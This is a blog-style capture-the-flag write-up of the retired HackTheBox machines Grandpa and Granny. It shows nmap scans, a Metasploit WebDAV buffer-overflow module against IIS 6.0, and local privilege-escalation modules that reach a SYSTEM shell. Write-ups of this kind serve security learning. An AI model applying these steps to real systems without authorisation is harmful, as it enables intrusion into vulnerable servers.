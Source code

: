 ```yaml
---
layout: post
title: "Writeup: HackTheBox Grandpa and Granny - with Metasploit"
description: "Rooting both Grandpa and Granny using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.
 
# Grandpa

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.14</small>_

# Granny

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.15</small>_

Grandpa and Granny are so similar that you can exploit them both using the same commands. For this reason, I've listed them together in this write up. The commands will interchangeably reference `10.10.10.14` or `10.10.10.15`, since these services are essentially the same.

Starting our port scan:

```bash
sudo nmap -sS -T4 --top-ports 1000 10.10.10.15

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-12 00:01 EDT
Nmap scan report for 10.10.10.15
Host is up (0.050s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Every other TCP port (using `-p-`) is filtered, as well as the top 20 UDP ports, so I'm assuming all we have is this web server on port 80.

Interrogating the server with `-sC -sV`, we get:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Tue, 05 May 2020 03:17:37 GMT
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So this is an IIS server version 6.0. I pull up [this exploit][iis exploit] on Exploit-DB. It targets IIS 6.0 servers by exploiting a buffer overflow in the `ScStoragePathFromUrl` function in the WebDav service. And it has a Metasploit module: `windows/iis/iis_webdav_scstoragepathfromurl`.

Executing this module gives us a Meterpreter shell as `NT AUTHORITY\NETWORK SERVICE`. We still need to escalate to a non-service user and/or SYSTEM.

We can determine the users on the box with:

```bat
net users

User accounts for \\GRANNY

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
IUSR_GRANPA              IWAM_GRANPA              Lakis                    
SUPPORT_388945a0         
The command completed successfully.
```

And on Grandpa:

```bat
User accounts for \\GRANPA

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
Harry                    IUSR_GRANPA              IWAM_GRANPA              
SUPPORT_388945a0         
The command completed successfully.
```

So the Grandpa user is `Harry` and the Granny user is `Lakis`.

Let's use `post/multi/recon/local_exploit_suggester` to identify privilege escalation vectors.

```bash
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 30 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

On Grandpa, I got a system shell with `windows/local/ms14_058_track_popup_menu`. On Granny, I opted to use `windows/local/ms14_070_tcpip_ioctl`. Which you choose doesn't really matter - both systems are vulnerable and both exploits give you a root shell.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here we can collect the user and root flags on both machines.

[hackthebox]: https://www.hackthebox.eu

[iis exploit]: https://www.exploit-db.com/exploits/41992
